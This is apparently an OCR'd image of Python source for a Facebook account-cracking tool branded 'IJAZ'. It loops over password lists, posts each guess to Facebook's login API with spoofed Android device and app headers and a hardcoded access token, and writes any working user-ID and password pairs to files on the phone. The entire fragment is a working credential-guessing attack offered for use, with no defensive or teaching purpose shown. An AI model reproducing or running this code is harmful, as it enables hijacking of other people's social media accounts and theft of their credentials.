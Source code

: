 				'x-fb-connection-bandwidth':str(random.randint(2e7,3e7)),
				'x-fb-connection-quality':'EXCELLENT',
				'x-fb-friendly-name':'authenticate',
				'accept-encoding':'gzip, deflate',
				'x-fb-http-engine':	'Liger'}
			url = 'https://b-api.facebook.com/method/auth.login'
			po = requests.post(url,data=data,headers=head,allow_redirects=False).text
			q = json.loads(po)
			if 'session_key' in q:
				udx = str(q['uid'])
				print('\r\r\033[1;32m [IJAZ-OK] '+udx+' | '+pas+'\033[1;97m')
				open('/sdcard/IJAZ-rnd-OK.txt', 'a').write(udx+'|'+pas+'\n')
				oks.append(ids)
				break
			elif 'www.facebook.com' in q['error_msg']:
				print('\r\r\x1b[38;5;205m [IJAZ-CP] '+ids+' | '+pas+'\033[1;97m')
				open('/sdcard/IJAZ-rnd-CP.txt','a').write(ids+'|'+pas+'\n')
				cps.append(ids)
				break
			else:
				continue
		loop+=1
	except requests.exceptions.ConnectionError:
		time.sleep(10)
	except Exception as e:
		print(e)
#new method
                
def IJAZ3(ids,passlist):
        global loop
        global oks
        sys.stdout.write('\r\r\033[1;37m [IJAZ-M3] %s|\033[1;37mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
        try:
                for pas in passlist:
                        accessToken = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
                        fbav = f'{random.randint(111,999)}.0.0.{random.randint(11,99)}.{random.randint(111,999)}'
                        fbbv = str(random.randint(111111111,999999999))
                        android_version = device['android_version']
                        model = device['model']
                        build = device['build']
                        fblc = device['fblc']
                        fbcr = sim_id
                        fbmf = device['fbmf']
                        fbbd = device['fbbd']
                        fbdv = device['fbdv']
                        fbsv = device['fbsv']
                        fbca = device['fbca']
                        fbdm = device['fbdm']
                        fbfw = '1'
                        fbrv = '0'
                        fban = 'FB4A'
                        fbpn = 'com.facebook.katana'
                        en = random.choice(['en_US','en_GB'])
                        cph = random.choice(['CPH1979','CPH1983','CPH1987','CPH2005','CPH2009','CPH2015','CPH2059','CPH2061','CPH2065','CPH2069','CPH2071','CPH2073','CPH2077','CPH2091','CPH2095','CPH2099','CPH2137','CPH2139','CPH2145','CPH2161','CPH2185','CPH2201','CPH2209','CPH1801','CPH1803','CPH1805','CPH1809','CPH1827','CPH1837','CPH1851','CPH1853'])
                        network = random.choice(['Zong','null','Marshmallow','Telekom China'])